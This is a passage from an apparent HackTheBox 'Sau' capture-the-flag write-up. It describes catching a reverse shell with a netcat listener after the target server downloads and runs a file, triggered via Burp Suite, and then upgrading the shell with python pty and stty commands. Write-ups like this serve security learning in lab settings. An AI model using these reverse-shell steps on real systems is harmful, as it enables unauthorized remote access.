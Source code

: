 After the server downloads the file we run that file to get shell
WE stand up a listener to catch a shell
```bash
nc -lnvp 4444
```

In burpsuite,
![burpshell](https://github.com/bsv1n4y/WriteUps/blob/main/HTB/Sau/burpshell.png?raw=true)

when we hit anybasket4 we should get a reverse shell
![shell](https://github.com/bsv1n4y/WriteUps/blob/main/HTB/Sau/reverse-shell.png?raw=true)

we fix our tty,
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
stty raw -echo; fg
ENTER twice

export TERM=xterm
```
